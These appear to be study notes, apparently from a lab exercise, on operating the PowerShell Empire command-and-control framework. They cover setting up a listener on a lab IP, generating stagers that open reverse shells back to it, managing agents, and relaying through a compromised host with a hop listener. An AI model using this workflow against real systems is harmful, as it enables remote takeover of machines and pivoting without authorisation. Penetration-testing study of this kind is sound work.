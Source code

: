 Start with:
```bash
powershell-empire server #start the server
powershell-empire client #start the client
```
If the server is not in localhost, change it in `/usr/share/powershell-empire/empire/client/config.yaml` or use `connect HOSTNAME --username=USERNAME --password=PASSWORD` in the client.

Use starkiller by starting `starkiller` in terminal and username:empireadmin and password:password123

###### listener
Used to receive connection from stagers(the payloads that create reverse shell).
In CLI client:
```empire_client
uselistener LISTENER_NAME
uselistener http
```
it work similiarly like metasploit, `options` to see the option. `set OPTION VALUE` to set options. For listener set this:
```empire_client
set Name CLIHTTP
set Host 10.50.193.140
set Port 8000
```
`execute` to execute, `back` to exit out of this menu, or `main` to exit to the main menu.
`listeners` to see the listener.
`kill LISTENER_NAME` to kill it.

Use generate in starkiller and just input the required field.

##### stagers
stagers are empire payload. Used to connect back to the listener, creating an agent when executed. Generate in CLI with:
```empire_client
usestager STAGER_NAME
usestager multi/bash
```
for stager, we need to set Listener option with `set Listener LISTENER_NAME`.
then `execute` to get the base64ed script.

For starkiller just go to the stager page on the left panel and create.

##### agent
agent is the shell, we can start it by just running the main part of the stagers script or copy it and run the script.
`agents` to see all agent
`interact AGENT_NAME` to interact.
`kill AGENT_NAME` to kill agent

##### hop listener
as empire cannot go through proxy, we can use a relay that's called hop listener. We create a file that copied to the compromised host, and use it to jump to our listener. Set `Redirectlistener`(our normal listener(http in this example)), 
`Host`(the compromised host),
and `Port`(the port on the compromised host).
`execute` and it will create a directory on our `/tmp`. Copy the file and its structure to the compromised host.
